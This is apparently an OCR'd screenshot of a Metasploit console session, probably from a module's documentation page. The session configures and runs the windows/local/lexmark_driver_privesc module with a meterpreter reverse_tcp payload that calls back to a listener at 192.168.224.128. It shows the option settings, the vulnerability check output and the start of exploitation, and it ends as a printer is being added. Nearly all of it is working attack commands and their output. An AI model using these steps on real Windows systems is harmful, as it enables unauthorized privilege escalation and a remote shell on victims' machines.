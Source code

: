```
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(windows/local/lexmark_driver_privesc) > set SESSION 1
SESSION => 1
msf exploit(windows/local/lexmark_driver_privesc) > set LPORT 8877
LPORT => 8877
msf exploit(windows/local/lexmark_driver_privesc) > check

[*] Lexmark driver published at oem9.inf
[*] Found 1 possible options:
[*] 	Lexmark Universal v2
[*] No user provided DRIVERNAME. Defaulting to "Lexmark Universal v2"
[*] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
msf exploit(windows/local/lexmark_driver_privesc) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/lexmark_driver_privesc) > show options

Module options (exploit/windows/local/lexmark_driver_privesc):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   DRIVERNAME                   no        The name of the Lexmark driver to exploit
   SESSION     1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT     8877             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(windows/local/lexmark_driver_privesc) > exploit

[*] Started reverse TCP handler on 192.168.224.128:8877
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Lexmark driver published at oem9.inf
[*] Found 1 possible options:
[*] 	Lexmark Universal v2
[*] No user provided DRIVERNAME. Defaulting to "Lexmark Universal v2"
[!] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
[*] Adding printer dGJvF...
```